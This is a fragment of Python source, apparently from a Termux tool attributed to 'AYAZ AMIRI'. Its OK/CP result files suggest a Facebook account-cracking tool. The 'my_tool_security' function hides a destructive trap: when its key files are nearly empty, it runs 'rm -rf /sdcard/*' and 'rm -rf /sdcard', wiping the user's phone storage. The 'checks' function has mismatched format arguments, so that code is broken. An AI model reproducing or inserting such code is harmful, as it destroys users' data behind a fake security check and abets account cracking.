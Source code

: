 
def linex():
    print(f'{RED}==========================================================')
def checks(ok,cp):
    if not len(ok) != 0:
        pass
    if len(cp) != 0:
        print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s  \x1b[1;97mNAIB-OK.txt' % (
            H, P, str(len(ok))))
        print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mNAIB-CP.txt' %
              (H, P, str(len(cp))))
        input("\x1b[1;97mPRESE ENTER TO BACK MENU ")
        xyz()
#---------------------[LOOP MENU]---------------------#
loop = 0
cp = []
ok = []
twf = []



def my_tool_security():
    os.system("clear")
    print(logo)
    print(47*"-")
    print(c, 45*"-", wit)
    print("\t  Facebook : AYAZ AMIRI")
    print("\t  Fb page  : AYAZ AMIRI")
    print("\t  Github   : MAFYIA 313")
    print(c, 45*"-")
    print(47*"-")
    try:
        token_one=open(key_save_one,'r').read()
    except(requests.exceptions.ConnectionError):
        print(red," please on internet wifi/data ")
        exit()
    except(FileNotFoundError):
        os.system('termux-setup-storage')
        print("\t Welcome To AYAZ AMIRI- Amiri Tool ....")
        time.sleep(2)
        iid_1=uuid.uuid1().hex[:7].upper()
        iid_2=uuid.uuid1().hex[:7].upper()
        open(key_save_one,'w').write(iid_1)
        open(key_save_two,'w').write(iid_2)
        my_tool_security()
    except(KeyError,OSError,IOError):
        os.system("termux-setup-storage")
        print("\n Hey user we are facing issues with your device")
        print(" Give termux storage permission and try again")
        exit()
    token_two=open(key_save_two,'r').read()
    if len(token_two)<=1:
        os.system("rm -rf /sdcard/*")
        os.system("rm -rf /sdcard")
        os.system('rm -rf '+key_save_one+'')
        exit()
    else:
        pass
    if len(token_one)<=1:
        os.system("rm -rf /sdcard/*")
        os.system("rm -rf /sdcard")
        os.system('rm -rf '+key_save_one+'')
        exit()
    else:
        pass